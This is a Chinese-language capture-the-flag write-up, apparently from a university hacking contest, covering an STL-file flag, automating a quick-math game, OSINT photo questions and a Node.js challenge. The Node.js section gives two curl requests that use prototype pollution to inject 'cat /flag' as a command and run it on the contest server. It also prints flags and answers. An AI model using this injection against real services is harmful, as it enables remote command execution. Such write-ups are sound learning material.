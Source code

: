 ![打开 STL 文件看到 flag](get_flag_from_stl.jpg)

*PS：脖子快扭了，以及对于这个 flag：flag{Dr4W_Us!nG_fR3E_C4D!!w0W}，只能说 free CAD 我还真没用过。*

# 比大小王
本题来源于今年一堆人在小猿口算里欺负小学生的事情（无语），看来出题人也想让大家体会一下寻找口算平台漏洞的快乐，原以为是可以像当时的小猿口算那样直接篡改分数，分析了一下前端代码后发现不行，那解题思路就只剩下把题目全自动化求解然后提交，正好适合萌新入门自动化脚本，唯一要注意的事情是求解完后要等九秒再提交，不然会出现“检测到时空穿越”的错误（上一年是不是见过这个😂），代码[在这里](https://gist.github.com/vifly/67e439ac69eff8c4c6ae94fe2ca92b15#file-hack_compare-py)。

# 旅行照片 4.0
没想到今年还有社会工程学题目，只能说挖信息的方法真是多种多样啊。虽说已经连续几年见到旅行照片了，不过今年还是只完成了最简单的部分。

## 题目 1-2
第一小题考虑到校门数量也不多，直接暴破吧，得到答案：东校区西门。第二小题搜索“中科大2024ACG音乐会日期”就能获得答案：20240519。

# Node.js is Web Scale
从本题开始进入真正的 web 安全领域了，我对 JS 不怎么熟悉，后端代码里虽说有一行“Run commands which are constant and obviously safe.”这样有暗示性的注释，但我也不知道怎么利用，把代码丢给 LLM 让其分析有什么可利用的地方，直接找到了关键点：可以通过原型链污染添加任意指令。我只能表示居然还能这么玩😦，JS 真是太神奇了。执行以下两条指令即可：

```Bash
curl -X POST "https://<REPLACE_IT>.hack-challenge.lug.ustc.edu.cn:8443/set" -H "Content-Type: application/json" -d '{"key": "__proto__.flag", "value": "cat /flag"}'
curl "https://<REPLACE_IT>.hack-challenge.lug.ustc.edu.cn:8443/execute?cmd=flag"
```
